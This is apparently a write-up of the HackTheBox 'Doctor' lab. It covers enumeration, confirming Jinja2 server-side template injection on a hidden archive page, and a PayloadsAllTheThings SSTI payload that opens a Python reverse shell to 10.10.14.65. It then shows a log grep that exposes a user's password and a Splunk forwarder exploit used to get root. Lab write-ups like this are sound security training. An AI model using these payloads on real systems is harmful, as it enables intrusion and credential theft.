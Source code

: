 1, Recon
enumerate the ports
	22/tcp ssh
	80/tcp http
	8089/tcp ssl/http `Splunkd httpd`

In this place ,there is a tricky thing, when we change the hosts file and add the `doctors.htb`
The index page would redirect to `/login?next=%2F`
I guess it would because of port 8089 is the main domain page.
\
Let's register an account and we can update the account information
![](images/Pasted%20image%2020240904044014.png)

When we want to exchange to the admin ,we can find user admin is existed.

When we successfully post the first post, we can find something interesting from the source code 
`<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->`

Let's check this url.

Visiting returns XML about the posts that exist:
```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>hello</title></item>

			</channel>
```

I tried to send payloads that might identify some kind of XXE vulnerability, but didn’t find anything useful.
```
Python web servers can be vulnerable to Server Side Template Injections. If the user input isn’t sanitized, it can be included in template code rather than handled as text, and this can allow for remote code execution. OWASP has a page that goes into good detail on the background. A quick example would be a Python Jinja2-based server that has a route like this:

@app.route("/hello")
def hello():
    user = request.values.get("user")
    return Jinja2.from_string(f'Hello {user}!').render()

If the user submits a get request like /hello?user={{7*7}}, the result would be Hello 49!, because the render function would process the text inside curly brackets.
```

We can find it worked.
```
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>hello</title></item>

			</channel>
			<item><title>49</title></item>

			</channel>
```

I’ll grab the RCE payload from PayloadsAllTheThings and modify it by putting in my IP / port, and changing the process to bash -i to get a shell:
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.65\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.65\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

```

As web, I can see one other user on the box, shaun:
user.txt is in shaun’s home directory, but I can’t read it yet.

web is also a member of the adm group:
`uid=1001(web) gid=1001(web) groups=1001(web),4(adm)`

This is interesting because it means that web can read log files. I did a quick grep through all the logs for the string passw (which should get both “passwd” and “password”):
`grep -r passw . 2>/dev/null`
These would be useful for us:
```
"POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
We are lucky, this is user `shaun` password.

3,Shell as root.
let's check `sudo -l`
```
sudo -l
[sudo] password for shaun: Guitar123

Sorry, user shaun may not run sudo on doctor.
```

But there is something interesting we found:
`-rw-rw-r-- 1 shaun shaun   66 Sep 15  2020 .selected_editor`

```
# Generated by /usr/bin/select-editor
SELECTED_EDITOR="/bin/nano"

-rwxr-xr-x 1 root root 2442 Nov 17  2019 /usr/bin/select-editor
```

But I think this would be rabbit hole, so let's come to port 8089 
`Splunkd httpd` 
`Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF)`
`https://github.com/cnotin/SplunkWhisperer2.git`

Then we have the username `shaun` and password `Guitar123`
We can run this exploit and get the root shell.


